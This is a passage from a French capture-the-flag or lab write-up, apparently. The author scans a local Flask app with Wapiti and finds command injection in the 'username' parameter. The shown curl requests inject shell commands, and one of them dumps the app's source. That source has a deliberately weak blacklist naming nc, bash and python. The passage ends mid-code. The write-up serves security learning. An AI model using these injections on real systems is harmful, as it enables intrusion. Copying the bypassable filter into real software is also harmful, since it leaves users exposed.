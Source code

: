 Les paramètres sont peut être vulnérables mais il faut pouvoir les attaquer avec la requête POST. Heureusement les récentes modification sur Wapiti rajoutent un paramètre pour spécifier des données à envoyer via POST sur une URL de base de scan. En gros ça donne :

```bash
wapiti -u 'http://192.168.242.134:5000/?username=lol&password=wtf' -v2 --color --scope page --data "a=1"
```

Wapiti y trouve une faille d'exécution de commande :

```
---
Command execution in http://192.168.242.134:5000/ via injection in the parameter username
Evil request:
    POST /?username=set&password=a HTTP/1.1
    host: 192.168.242.134:5000
    connection: keep-alive
    user-agent: Mozilla/5.0 (Windows NT 6.1; rv:45.0) Gecko/20100101 Firefox/45.0
    accept-language: en-US
    accept-encoding: gzip, deflate, br
    accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    content-type: application/x-www-form-urlencoded
    content-length: 3
    Content-Type: application/x-www-form-urlencoded

    a=1
---
```

J'ai intégré l'utilisation de la commande `set` comme payload il y a un bon moment mais il me semble que cette commande a l'avantage de donner un output à la fois sous Linux et Windows. Sous Linux elle retourne tout ce qui est intégré dans l'environement bash en cours (variables d'environment, fonctions, etc)

On est vite bloqué sur cette RCE qui semble bloquer quelques caractères comme le point virgule :

```bash
$ curl -XPOST 'http://192.168.242.134:5000/?username=ls;id&password='
Access Denied!!
```

Mais on peut en savoir plus sur les restrictions en récupérant le code source :

```python
$ curl -XPOST 'http://192.168.242.134:5000/?username=cat+app.py&password='
import subprocess
from flask import Flask, request


app = Flask(__name__)
app.secret_key = "key"


RCE = ["|", "*", "^", "$", ";", "nc", "bash", "bin", "eval",  "python"]


def validate(cmd):
    try:
        for i in RCE:
            if i in cmd:
                return False
        return True
    except Exception:
        return False


@app.route("/", methods=["POST"])
def index():
```